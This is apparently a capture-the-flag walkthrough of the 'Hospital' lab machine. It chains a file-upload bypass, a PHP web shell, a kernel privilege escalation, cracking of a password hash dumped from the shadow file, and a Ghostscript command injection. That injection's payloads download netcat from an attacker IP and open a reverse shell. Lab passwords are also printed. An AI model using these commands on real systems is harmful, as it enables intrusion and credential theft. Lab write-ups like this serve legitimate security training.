## Machine Info


## Recon

```
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-12-05 05:44:03Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp   open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp  open  msmq?
2103/tcp  open  msrpc             Microsoft Windows RPC
2105/tcp  open  msrpc             Microsoft Windows RPC
2107/tcp  open  msrpc             Microsoft Windows RPC
2179/tcp  open  vmrdp?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp  open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2023-12-05T05:45:01+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2023-09-05T18:39:34
|_Not valid after:  2024-03-06T18:39:34
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6404/tcp  open  msrpc             Microsoft Windows RPC
6406/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp  open  msrpc             Microsoft Windows RPC
6409/tcp  open  msrpc             Microsoft Windows RPC
6613/tcp  open  msrpc             Microsoft Windows RPC
6632/tcp  open  msrpc             Microsoft Windows RPC
8080/tcp  open  http              Apache httpd 2.4.55 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.55 (Ubuntu)
9389/tcp  open  mc-nmf            .NET Message Framing
21715/tcp open  msrpc             Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 5.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:5.0
Aggressive OS guesses: Linux 5.0 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

- 443 SSL: https://hospital.htb/
- 8080 HTTP: http://hospital.htb:8080/
- 3389 MS WBT Server
- RPC

## Foothold

### 8080 - upload

- register a user, qwe:pass


- upload 1.png ok, 1.php [x]
- test extention name: php, php1, php2, phtml, ...



- `1.phar` [ok]
- enum path: **uploads/**



- upload a web shell php, https://github.com/flozz/p0wny-shell





- get rshell on the local





- check ip addr -> inside a container WSL/Docker

### container priv esca

- check sys info -> kernel version **5.19.0**

```bash
www-data@webserver:/$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

- [g1vi/CVE-2023-2640-CVE-2023-32629: GameOver(lay) Ubuntu Privilege Escalation (github.com)](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)
- get root shell



- check **shadow** file to get hash

```bash
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

- hashcat to crack hash -> **drwilliams:qwe123!@#**



### 443 - mail service

- **login**: https://10.10.11.241/?_task=mail&_mbox=INBOX, by cred **drwilliams:qwe123!@#**



- recon: **.eps** file (used by **GhostScript**) -> [jakabakos/CVE-2023-36664-Ghostscript-command-injection: Ghostscript command injection vulnerability PoC (CVE-2023-36664) (github.com)](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/tree/main)

```bash
python3 CVE_2023_36664_exploit.py --inject --payload "curl -O http://10.10.14.15/nc.exe" --filename file.eps
python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.15 1234 -e cmd.exe" --filename file.eps
```

- write two emails **attached** with each file.eps -> get windows user shell



## Privilege Escalation

- find a powershell script



- cred: **hospital/drbrown:chr!$br0wn**
- use this cred to conn RPC
- enum RPC: `querydispinfo`; ref: [rpcclient enumeration - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration?source=post_page-----791ad6dd24ed--------------------------------)



- Administrator and Guest share some information together.
- check dir's ACL -> **xampp**, **Append Data** + **Write Data** [ok]



- curl web php shell file into home path, visit it on browser to get admin shell





## Exploit Chain

upload exp -> web shell -> reverse shell -> container priv esca -> root priv -> cat shadow -> hash crack -> mail service login -> inject cmd into eps file -> email victim to trigger -> get win user priv shell -> admin + guest shared information -> curl down web shell -> admin priv shell
